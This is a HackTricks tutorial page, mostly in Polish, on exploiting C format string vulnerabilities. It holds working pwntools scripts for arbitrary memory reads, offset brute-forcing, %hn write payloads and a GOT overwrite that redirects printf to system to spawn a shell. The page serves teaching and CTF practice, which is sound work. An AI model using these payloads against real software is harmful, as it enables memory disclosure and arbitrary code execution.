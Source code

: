 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_wymagana biegła znajomość języka polskiego w mowie i piśmie_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

W C **`printf`** to funkcja, która może być używana do **drukowania** pewnego ciągu znaków. **Pierwszym parametrem**, którego oczekuje ta funkcja, jest **surowy tekst z formatami**. **Następne parametry** to **wartości**, które mają **zastąpić** **formaty** w surowym tekście.

Inne podatne funkcje to **`sprintf()`** i **`fprintf()`**.

Vulnerabilność pojawia się, gdy **tekst atakującego jest używany jako pierwszy argument** tej funkcji. Atakujący będzie w stanie stworzyć **specjalne dane wejściowe, wykorzystując** możliwości **formatu printf** do odczytu i **zapisu dowolnych danych w dowolnym adresie (czytliwym/zapisywalnym)**. Dzięki temu będzie mógł **wykonać dowolny kod**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Przykłady:**

* Wrażliwy przykład:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normalne użycie:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Z brakującymi argumentami:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf podatny:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Dostęp do wskaźników**

Format **`%<n>$x`**, gdzie `n` to liczba, pozwala wskazać printf, aby wybrał n parametr (ze stosu). Więc jeśli chcesz odczytać 4. parametr ze stosu używając printf, możesz to zrobić:
```c
printf("%x %x %x %x")
```
i możesz czytać od pierwszego do czwartego parametru.

Lub możesz zrobić:
```c
printf("%4$x")
```
i odczytać bezpośrednio czwarty.

Zauważ, że atakujący kontroluje parametr `printf`, co zasadniczo oznacza, że jego dane wejściowe będą znajdować się na stosie, gdy `printf` zostanie wywołane, co oznacza, że mógłby zapisać konkretne adresy pamięci na stosie.

{% hint style="danger" %}
Atakujący kontrolujący te dane wejściowe będzie w stanie **dodać dowolny adres na stosie i sprawić, że `printf` uzyska do nich dostęp**. W następnej sekcji wyjaśniono, jak wykorzystać to zachowanie.
{% endhint %}

## **Arbitralne Odczyty**

Możliwe jest użycie formatera **`%n$s`**, aby sprawić, że **`printf`** uzyska **adres** znajdujący się na **n pozycji**, podążając za nim i **wydrukować go tak, jakby był ciągiem** (drukować aż do znalezienia 0x00). Więc jeśli adres bazowy binarnego pliku to **`0x8048000`**, a wiemy, że dane wejściowe użytkownika zaczynają się na 4. pozycji na stosie, możliwe jest wydrukowanie początku binarnego pliku za pomocą:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Zauważ, że nie możesz umieścić adresu 0x8048000 na początku wejścia, ponieważ ciąg zostanie obcięty na 0x00 na końcu tego adresu.
{% endhint %}

### Znajdź offset

Aby znaleźć offset do swojego wejścia, możesz wysłać 4 lub 8 bajtów (`0x41414141`) następnie **`%1$x`** i **zwiększać** wartość, aż uzyskasz `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Jak przydatne

Arbitralne odczyty mogą być przydatne do:

* **Zrzutu** **binarnego** z pamięci
* **Dostępu do konkretnych części pamięci, gdzie przechowywane są wrażliwe** **informacje** (jak kanarki, klucze szyfrowania lub niestandardowe hasła, jak w tym [**wyzwaniu CTF**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitralne Zapis**

Formatter **`%<num>$n`** **zapisuje** **liczbę zapisanych bajtów** w **wskazanym adresie** w parametrze \<num> na stosie. Jeśli atakujący może zapisać tyle znaków, ile chce, używając printf, będzie w stanie sprawić, że **`%<num>$n`** zapisze arbitralną liczbę w arbitralnym adresie.

Na szczęście, aby zapisać liczbę 9999, nie trzeba dodawać 9999 "A" do wejścia, aby to zrobić, można użyć formatera **`%.<num-write>%<num>$n`**, aby zapisać liczbę **`<num-write>`** w **adresie wskazywanym przez pozycję `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Jednakże, należy zauważyć, że zazwyczaj, aby zapisać adres taki jak `0x08049724` (co jest ogromną liczbą do zapisania na raz), **używa się `$hn`** zamiast `$n`. To pozwala na **zapisanie tylko 2 bajtów**. Dlatego ta operacja jest wykonywana dwa razy, raz dla najwyższych 2B adresu, a drugi raz dla najniższych.

Dlatego ta podatność pozwala na **zapisanie czegokolwiek w dowolnym adresie (arbitralny zapis).**

W tym przykładzie celem będzie **nadpisanie** **adresu** **funkcji** w tabeli **GOT**, która będzie wywoływana później. Chociaż można to wykorzystać w innych technikach arbitralnego zapisu do exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Zamierzamy **nadpisać** **funkcję**, która **otrzymuje** swoje **argumenty** od **użytkownika** i **wskazać** ją na **funkcję** **`system`**.\
Jak wspomniano, aby zapisać adres, zazwyczaj potrzebne są 2 kroki: **najpierw zapisujesz 2B** adresu, a następnie kolejne 2. W tym celu używa się **`$hn`**.

* **HOB** odnosi się do 2 wyższych bajtów adresu
* **LOB** odnosi się do 2 niższych bajtów adresu

Następnie, z powodu działania formatu ciągu, musisz **najpierw zapisać najmniejszy** z \[HOB, LOB\], a potem drugi.

Jeśli HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Jeśli HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Szablon Pwntools

Możesz znaleźć **szablon** do przygotowania exploita dla tego rodzaju podatności w:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Lub ten podstawowy przykład z [**tutaj**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings do BOF

Możliwe jest nadużycie działań zapisu w podatności na format string, aby **zapisać w adresach stosu** i wykorzystać podatność typu **buffer overflow**.

## Inne przykłady i odniesienia

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32 bity, brak relro, brak canary, nx, brak pie, podstawowe użycie format strings do wycieku flagi ze stosu (nie ma potrzeby zmiany przepływu wykonania)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32 bity, relro, brak canary, nx, brak pie, format string do nadpisania adresu `fflush` funkcją win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32 bity, relro, brak canary, nx, brak pie, format string do zapisania adresu wewnątrz main w `.fini_array` (aby przepływ wrócił jeszcze raz) i zapisania adresu do `system` w tabeli GOT wskazującego na `strlen`. Gdy przepływ wraca do main, `strlen` jest wykonywane z danymi wejściowymi użytkownika i wskazując na `system`, wykona przekazane polecenia.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Jeśli jesteś zainteresowany **karierą w hackingu** i chcesz złamać to, co nie do złamania - **zatrudniamy!** (_wymagana biegła znajomość polskiego w mowie i piśmie_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Wspieraj HackTricks

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.
{% endhint %}
